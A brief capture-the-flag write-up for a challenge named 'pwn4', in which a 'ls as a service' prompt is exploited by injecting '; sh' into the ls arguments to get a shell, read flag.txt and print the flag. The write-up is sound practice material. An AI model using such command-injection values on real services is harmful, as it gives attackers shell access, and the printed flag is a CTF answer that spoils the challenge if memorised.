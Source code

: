# pwn4

![](./pwn4_brief.png)

This challenge was far too easy and leads me to believe it was broken.

The challenge began with the prompt:

```
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
```

This allows us to just pass ```; sh``` to the ```ls``` command to run a shell.

```
cat flag.txt
```

Provides us with the flag.

```
FLAG: gigem{5y573m_0v3rfl0w}
```
